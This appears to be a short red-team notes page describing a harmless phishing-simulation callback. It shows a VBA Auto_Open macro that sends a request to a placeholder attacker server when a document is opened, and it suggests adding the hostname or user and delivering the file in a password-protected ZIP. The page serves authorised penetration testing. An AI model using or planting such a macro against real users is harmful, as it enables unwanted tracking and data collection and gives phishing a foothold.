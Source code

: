 # Non-malicious Callback

There have been multiple tests in the past where dropping a shell onto a victims machine is not within scope. In these cases, I often perform a simulated exercise where we have a PoC payload that calls back to our infrastructure, allowing us to verify that someone downloaded and opened the document.

Often times this payload can be delivered in a password protected ZIP file with a macro. I'd never taken the time to actually document the process of doing this until I came across a blog post from [Hackzzdogz](https://hackzzdogs.gitbook.io/red-team/red-team-blogs/bypassing-microsoft-endpoint-solutions-for-fun). This can be further modified to include additional information in the request such as the hostname of the device of signed in user:

```markup
Sub Auto_Open()
Dim myURL As String
myURL = "$attacker_server"


Dim WinHttpReq as Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
End Sub
```

### References

{% embed url="https://hackzzdogs.gitbook.io/red-team/red-team-blogs/bypassing-microsoft-endpoint-solutions-for-fun" %}

{% embed url="https://www.trustedsec.com/blog/malicious-macros-for-script-kiddies/" %}
